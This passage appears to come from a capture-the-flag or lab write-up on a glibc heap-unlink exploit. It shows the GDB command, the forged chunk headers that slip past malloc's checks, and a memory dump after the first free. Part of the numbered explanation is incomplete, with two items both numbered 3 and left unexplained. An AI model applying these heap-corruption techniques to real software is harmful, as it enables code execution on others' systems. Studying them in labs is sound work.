 Run the script through GDB:
```bash
run $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
```

After last `strcpy` call:
![](./assets/idk.png)
1. `0x804c008-0x804c00c` is where our shellcode `winner` located
2. `0x804c054` is about setting up for the third chunk. Set its value to `0x65` with `PREV_INUSE=1`, and hence passing two cases:
```c
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){}
if (!prev_inuse(p)) {}
```
just like we have planned
3. `0x804c0b4-0x804c0b8`
3. `0x804c0bc-0x804c0c0`


First `free` call, `*` indicates some changes within that address:
```bash
0x804c000:	0x00000000	0x00000029	0x048864b8	0x00d0ff08
0x804c010:	0x0804b11c	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	*0x00000061	*0x0804b194	*0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	*0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```
